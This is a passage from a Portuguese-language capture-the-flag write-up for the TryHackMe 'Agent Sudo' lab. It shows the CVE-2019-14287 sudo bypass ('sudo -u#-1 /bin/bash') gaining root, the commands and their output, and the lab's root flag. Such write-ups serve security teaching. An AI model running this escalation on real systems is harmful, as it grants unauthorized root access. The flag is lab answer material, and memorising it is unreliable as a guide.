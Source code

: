 ### Download e analise de outro arquivo JPG no diretório do usuário.

- Efetuado o download do arquivo via SCP.

``` 
scp james@10.10.252.47:Alien_autospy.jpg .
james@10.10.252.47's password: 
Permission denied, please try again.
james@10.10.252.47's password: 
Alien_autospy.jpg   
```
- Pesquisado no google e identificado a origem da imagem.
	- ROSWELL ALIEN AUTOPSY


### Escalação de privilégios

- Identificado a possibilidade de escalação de privilégios pelo /bin/bash.
```
sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
- Efetuado uma pesquisa no google pelo "(ALL, !root) /bin/bash"
	- Identificado que há um CVE: CVE-2019-14287, para essa vulnerabilidade
	- Encontrado exploit para o CVR-2019-14287
		- https://www.exploit-db.com/exploits/47502


### Execução do exploit (ExploitID: 47502)

- Capturado o usuário root.

```
james@agent-sudo:~$ whoami
james
james@agent-sudo:~$ 
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
root@agent-sudo:~# whoami
root
root@agent-sudo:~# 
```

### Root-flag

```
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```